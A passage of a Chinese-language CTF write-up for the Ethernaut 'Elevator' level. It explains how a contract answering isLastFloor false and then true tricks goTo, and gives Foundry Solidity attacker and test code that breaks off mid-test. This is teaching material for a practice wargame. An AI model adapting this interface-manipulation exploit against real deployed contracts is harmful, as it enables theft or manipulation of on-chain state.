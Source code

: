 ### 攻击向量

在 `goTo` 函数中，`isLastFloor` 被调用两次：
1. **第一次调用**：必须返回 `false`，否则无法进入修改 `top` 的逻辑
2. **第二次调用**：我们可以让它返回 `true` 来设置 `top = true`

我们可以通过创建一个 `isLastFloor()` 来利用这一点，它将第一次返回 `false`，第二次返回 `true`。

## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Ethernaut.sol";
import "../src/levels/ElevatorFactory.sol";

interface Building {
    function isLastFloor(uint) external returns (bool);
}

contract ElevatorAttacker is Building {
    Elevator instance;
    bool top = false;

    constructor(address _elevator) {
        instance = Elevator(_elevator);
    }

    // 关键：状态变化的接口实现
    function isLastFloor(uint _floor) external override returns (bool) {
        top = !top;  // 第一次调用时 top 变为 true，第二次变为 false
        return !top; // 第一次返回 false，第二次返回 true
    }

    function attack(uint _floor) public {
        instance.goTo(_floor);
    }
}

contract ElevatorTest is Test {
    Ethernaut ethernaut;
    ElevatorFactory elevatorFactory;
    
    function setUp() public {
        ethernaut = new Ethernaut();
        elevatorFactory = new ElevatorFactory();
        ethernaut.registerLevel(elevatorFactory);
    }
    
    function testElevatorExploit() public {
        // 创建关卡实例
        address levelInstance = ethernaut.createLevelInstance(elevatorFactory);
        Elevator instance = Elevator(levelInstance);
        
        // 检查初始状态
        assertEq(instance.top(), false);
        assertEq(instance.floor(), 0);
        
        // 部署攻击合约
```
